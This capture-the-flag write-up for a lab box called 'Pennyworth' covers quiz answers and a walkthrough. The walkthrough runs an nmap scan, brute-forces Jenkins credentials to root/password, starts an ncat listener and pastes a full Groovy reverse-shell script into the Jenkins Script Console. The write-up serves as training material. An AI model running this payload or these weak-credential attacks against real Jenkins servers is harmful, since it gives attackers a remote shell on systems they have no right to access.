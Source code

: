 <center>Pennyworth</center>





[toc]







## Pennyworth

> Pennyworth







### 1. task

1. What does the acronym CVE stand for?

```shell
Common Vulnerabilities and Exposures
```

2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

```shell
Confidentiality, Integrity, Availability
```

3. What is the version of the service running on port 8080?

````shell
Jetty 9.4.39.v20210325
````

4. What version of Jenkins is running on the target?

```shell
2.289.1
```

5. What type of script is accepted as input on the Jenkins Script Console?

```shell
Groovy
```

6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

```shell
cmd.exe
```

7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

```shell
ifconfig
```

8. What switch should we use with netcat for it to use UDP transport mode?

```shell
-u
```

9. What is the term used to describe making a target host initiate a connection back to the attacker host?

```shell
reverse shell
```









### 3. flag

> 获取flag

```shell
nmap -sC -sV IP
```

![image-20241202155618773](./assets/image-20241202155618773.png)

> 访问8080端口。
>
> 登陆接口没做任何防御。 进行爆破

```shell
账号密码：root/password
```

> **`访问 :8080/script，利用Groovy命令获取反弹shell`**

> **在Jenkins脚本控制台中，可以编写和运行Groovy脚本，尝试在Jenkins控制台插入反弹shell脚本。**

```shell
# 在攻击机执行监听
ncat -nvlp 1234

访问target_ip:8080/script，在Jenkins控制台插入Groovy脚本，点击run运行
```

```groovy
//脚本
String host="host_ip";
int port=监听端口;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

> 获取到`shell`

![image-20241202160005838](./assets/image-20241202160005838.png)